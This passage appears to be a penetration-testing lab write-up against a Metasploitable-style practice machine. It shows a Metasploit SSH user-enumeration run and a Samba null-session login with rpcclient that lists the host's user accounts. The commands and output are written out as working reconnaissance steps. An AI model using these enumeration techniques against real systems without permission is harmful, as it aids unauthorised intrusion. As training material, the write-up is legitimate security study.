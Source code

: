     msf auxiliary(ssh_enumusers) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(ssh_enumusers) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/default_users_for_services_unhash.txt
    USER_FILE => /usr/share/metasploit-framework/data/wordlists/default_users_for_services_unhash.txt
    msf auxiliary(ssh_enumusers) > run

    [*] 192.168.56.103:22 - SSH - Checking for false positives
    [*] 192.168.56.103:22 - SSH - Starting scan
    .
    .
    .

After running this for a while I decide to stop the scan, it's super slow and some how didn't *feel* right.
I have a hunch that this approach will fail, and that the target is not vulnerable to this attack after all.

I really want to target all my effort on port 22 but I can't figure out a way to enumerate the users via SSH so instead I decided to do it via a Samba vulnerability.
My target is running (from my previous scan):
    
    139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
    
I know as a fact that Samba can be missconfigured to allow null sessions so I give it a try:
        
    # rpcclient -U "" 192.168.56.103
    Enter 's password: 
    rpcclient $>

So I have a null session up and running, next is just a simple command to get all the users:

    rpcclient $> enumdomusers
    user:[games] rid:[0x3f2]
    user:[nobody] rid:[0x1f5]
    user:[bind] rid:[0x4ba]
    user:[proxy] rid:[0x402]
    user:[syslog] rid:[0x4b4]
    user:[user] rid:[0xbba]
    user:[www-data] rid:[0x42a]
    user:[root] rid:[0x3e8]
    user:[news] rid:[0x3fa]
    user:[postgres] rid:[0x4c0]
    user:[bin] rid:[0x3ec]
    user:[mail] rid:[0x3f8]
    user:[distccd] rid:[0x4c6]
    user:[proftpd] rid:[0x4ca]
    user:[dhcp] rid:[0x4b2]
    user:[daemon] rid:[0x3ea]
    user:[sshd] rid:[0x4b8]
    user:[man] rid:[0x3f4]
    user:[lp] rid:[0x3f6]
    user:[mysql] rid:[0x4c2]
    user:[gnats] rid:[0x43a]
    user:[libuuid] rid:[0x4b0]
    user:[backup] rid:[0x42c]
    user:[msfadmin] rid:[0xbb8]
    user:[telnetd] rid:[0x4c8]
    user:[sys] rid:[0x3ee]
    user:[klog] rid:[0x4b6]
    user:[postfix] rid:[0x4bc]
    user:[service] rid:[0xbbc]
    user:[list] rid:[0x434]
    user:[irc] rid:[0x436]
    user:[ftp] rid:[0x4be]
    user:[tomcat55] rid:[0x4c4]
